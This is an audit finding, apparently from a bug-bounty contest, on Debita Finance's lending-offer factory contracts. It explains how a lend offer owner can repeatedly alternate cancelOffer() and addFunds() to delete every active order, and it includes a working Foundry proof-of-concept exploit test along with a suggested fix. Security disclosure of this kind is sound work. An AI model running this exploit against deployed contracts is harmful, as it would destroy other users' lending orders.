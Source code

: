 Dandy Charcoal Bee

High

# Malicious lend offer owner can delete the other active orders in the factory

### Summary

Improper access control in addFunds() allows anyone to completely corrupt the state of the lending offers factory.

### Root Cause

The only way to delete an active order is through [`DebitaLendOfferFactory:deleteOrder()`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/376fec45be95bd4bbc929fd37b485076b03ab8b0/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L207), which is only callable by lend offer proxies trough [`cancleOffer()`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/376fec45be95bd4bbc929fd37b485076b03ab8b0/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L144):

```solidity
function cancelOffer() public onlyOwner nonReentrant {
        uint availableAmount = lendInformation.availableAmount;
        lendInformation.perpetual = false;
        lendInformation.availableAmount = 0;
        require(availableAmount > 0, "No funds to cancel"); // <@
        isActive = false;
        
        // refound the avaiableAmount
        SafeERC20.safeTransfer(
            IERC20(lendInformation.principle),
            msg.sender,
            availableAmount
        );

        IDLOFactory(factoryContract).emitDelete(address(this));
        IDLOFactory(factoryContract).deleteOrder(address(this));
        // emit canceled event on factory
    }
```

As we can see, if the `avaiableAmount` is 0, then the offer is considered closed.

But, due to missing access control checks in the [`addFunds()`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/376fec45be95bd4bbc929fd37b485076b03ab8b0/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L162), we can still write  `avaiableAmount` even after the offer has been closed.

```solidity
function addFunds(uint amount) public nonReentrant {
        require(
            msg.sender == lendInformation.owner ||
                IAggregator(aggregatorContract).isSenderALoan(msg.sender),
            "Only owner or loan"
        );
        SafeERC20.safeTransferFrom(
            IERC20(lendInformation.principle),
            msg.sender,
            address(this),
            amount
        );
        lendInformation.availableAmount += amount; // <@ allows to re-call cancelOffer() multiple times
        IDLOFactory(factoryContract).emitUpdate(address(this));
    }
```

This is only possible because `addFunds()` only validates the caller, without checking that the offer was previously closed.

### Internal pre-conditions

1. There are 1 or more lend offers created through the factory.

### External pre-conditions

_No response_

### Attack Path

1. Attacker creates a lend offer via the factory contract
2. He then repeatedly calls cancelOffer() and addFunds() for activeOrdersCount times
3. The lend offer factory has now 0 active orders and there is no way to recover the old state in which those offers were valid

### Impact

Anyone can potentially cancel all of the active orders in the factory.

Note that they cannot be recovered because the `activeOrderCount` is decremented.
This means that, after the attack, new orders will overwrite the old ones.

The only cost for the attacker are the transaction fees to pay since the `cancelOffer()` will always refund him of the tokens he previously used  in `addFunds()`.
Since all the target chains are L2 with very low fees this cost will be negligible.

### PoC

Add the following contract into `test/local `:
```solidity
pragma solidity ^0.8.0;

import {Test, console2} from "forge-std/Test.sol";
import {DLOFactory} from "@contracts/DebitaLendOfferFactory.sol";
import {DLOImplementation} from "@contracts/DebitaLendOffer-Implementation.sol";
import {MockERC20} from "forge-std/mocks/MockERC20.sol";

contract ChangeOwnerShadowed is Test {

    DLOFactory DLOFactoryContract;
    MockERC20 token;

    function setUp() public {
        DLOImplementation proxyImplementation = new DLOImplementation();
        DLOFactoryContract = new DLOFactory(address(proxyImplementation));
        token = new MockERC20();
        token.initialize("TestToken", "TTKN", 18);
    }

    function test_exploit() public {
        address alice = makeAddr("Alice");
        address bob = makeAddr("Bob");

        deal(address(token), alice, 10e18);
        deal(address(token), bob, 10e18);

        // 1. create 3 legitimate orders
        bool[] memory oraclesActivated = new bool[](1);
        uint[] memory ltvs = new uint[](1);
        uint[] memory ratios = new uint[](1);
        address[] memory acceptedPrinciples = new address[](1);
        address[] memory oraclesPrinciples = new address[](1);

        vm.startPrank(alice);
        token.approve(address(DLOFactoryContract), type(uint256).max);
        address lenderOrder1 = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated, 
            true, 
            ltvs,
            1000, 
            30 days, 
            1 days, 
            acceptedPrinciples, 
            address(token), 
            oraclesPrinciples, 
            ratios, 
            address(0),
            1e18 
        );

        address lenderOrder2 = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated, 
            true, 
            ltvs,
            1000, 
            30 days, 
            1 days, 
            acceptedPrinciples, 
            address(token), 
            oraclesPrinciples, 
            ratios, 
            address(0),
            5e18 
        );

        vm.stopPrank();

        vm.startPrank(bob);
        token.approve(address(DLOFactoryContract), type(uint256).max);
        DLOImplementation lenderOrder3 = DLOImplementation(DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated, 
            true, 
            ltvs,
            1000, 
            30 days, 
            1 days, 
            acceptedPrinciples, 
            address(token), 
            oraclesPrinciples, 
            ratios, 
            address(0),
            5e18 
        ));

        // make sure that there are 3 active orders for the factory
        assertEq(DLOFactoryContract.activeOrdersCount(), 3);


        // EXPLOIT
        token.approve(address(lenderOrder3), type(uint256).max);
        lenderOrder3.cancelOffer();
        lenderOrder3.addFunds(5e18);
        lenderOrder3.cancelOffer();
        lenderOrder3.addFunds(5e18);
        lenderOrder3.cancelOffer();
        lenderOrder3.addFunds(5e18);

        assertEq(DLOFactoryContract.activeOrdersCount(), 0);
    }

}
```

### Mitigation

Make `addFunds()` revert after the offer has been canceled by adding the following check: `require(isActive, "Loan is inactive")`